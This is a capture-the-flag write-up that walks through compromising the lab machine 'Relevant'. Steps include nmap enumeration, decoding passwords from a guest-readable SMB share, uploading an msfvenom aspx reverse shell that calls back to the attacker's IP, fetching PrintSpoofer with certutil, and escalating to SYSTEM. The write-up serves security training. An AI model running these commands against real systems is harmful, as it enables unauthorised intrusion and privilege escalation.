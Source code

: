 ### Name: Relevant
### Ip: 10.10.28.224
### Difficulty: Medium

----------------------------------------------------------------

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    - User.txt
    - Root.txt

Additionally, the client has provided the following scope allowances:

    - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
    - Locate and note all vulnerabilities found
    - Submit the flags discovered to the dashboard
    - Only the IP address assigned to your machine is in scope
    - Find and report ALL vulnerabilities (yes, there is more than one path to root)

--------------------------------------------------------------------------    

![10524728b2b462e8d164efe4e67ed087.jpeg](../assets/relevant_assets/10524728b2b462e8d164efe4e67ed087.jpeg)

### Enumeration

I'll begin enumerating this machine by scanning all TCP ports using Nmap:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -p- --min-rate 10000 10.10.28.224    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:03 CDT
Nmap scan report for 10.10.28.224
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```

Let's enumerate a bit deeper by also using the `-sC` and `-sV` flags to use default scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -sC -sV 10.10.28.224 -p 80,135,139,445,3389,49663
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:05 CDT
Nmap scan report for 10.10.28.224
Host is up (0.18s latency).

PORT      STATE SERVICE        VERSION
80/tcp    open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server?
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-27T18:56:40
|_Not valid after:  2023-12-27T18:56:40
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-28T19:07:20+00:00
|_ssl-date: 2023-06-28T19:07:59+00:00; 0s from scanner time.
49663/tcp open  http           Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb2-time: 
|   date: 2023-06-28T19:07:22
|_  start_date: 2023-06-28T18:57:35
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-28T12:07:21-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.02 seconds
```

Navigating to the site on port 80 we find an IIS default landing page:

![landing_page.png](../assets/relevant_assets/landing_page.png)

Before enumerating http let's take a look at the SMB shares to see if we can find anything interesting.

Using CrackMapExec we see that we have read and write access to the nt4wrksv share using the guest account with null for a password. Let's use SMBClient to further enumerate:

![smb_passwords.png](../assets/relevant_assets/smb_passwords.png)

Ok interesting, looks like we've found a couple passwords. This appears to be Base64, so lets try to decode these:

![b64_passwds.png](../assets/relevant_assets/b64_passwds.png)

So it appears we now have two sets of credentials:

```text
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
### Exploitation 

Before leaving SMB, I recall that we had both read and write permissions to the share. Let's try upload a reverse shell to see if we can get an easy win and get access to the box.

I'll create a reverse shell using msfvenom:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.61.45 LPORT=443 -a x64 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3420 bytes
```

And while still logged into the SMB share I can simply issue the `put` command to uplaod my shell.

`put shell.aspx`

I set up a NetCat listener and turned my attention to the browser to see where my shell may have been uploaded. 

I had no luck on port 80 at http://10.10.28.224/nt4wrksv/shell.aspx

![shell_fail.png](../assets/relevant_assets/shell_fail.png)

But looking back over my nmap scans I noticed the box had another http port open. I was able to succesfully trigger my shell by navigating to http://10.10.28.224:49663/nt4wrksv/shell.aspx

Which called back to my nc listener and gave me a working shell:

![first_shell.png](../assets/relevant_assets/first_shell.png)

And from here I can grab the user.txt flag from Bob's desktop:

![user_flag.png](../assets/relevant_assets/user_flag.png)

Let's now turn our attention to escalating privileges to administrator!

### Privilege Escalation

Running `whoami /all` shows me that SeImpersonatePrivilege is enabled on the machine.

![impersonate.png](../assets/relevant_assets/impersonate.png)

Nice! This should make for an easy privilege escalation. Because this is a Windows 10 box, let's try using PrintSpoofer.exe to escalate to the Administrator user.

Firstly I'll set up a Python webserver in the directory I keep PrinteSpoofer in and then afterwards I'll use CertUtil to download the file onto the target:

```text
C:\Users\Bob\Desktop>certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

We can also verify a code 200 from the Python server logs:

```text
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.28.224 - - [28/Jun/2023 14:45:41] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
10.10.28.224 - - [28/Jun/2023 14:45:44] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
```

Once PrintSpoofer is on the target I simply execute:

```text
C:\Users\Bob\Desktop>PrintSpoofer.exe -i -c cmd
```
And I can verify that the exploit worked and am now nt authority\system on the machine:

![system.png](../assets/relevant_assets/system.png)

All that's left to do now is to grab the root.txt flag in the Administrator's Desktop:

![root_flag.png](../assets/relevant_assets/root_flag.png)

And that's that! Thanks for following along!

-Ryan

------------------------------------------------------------------
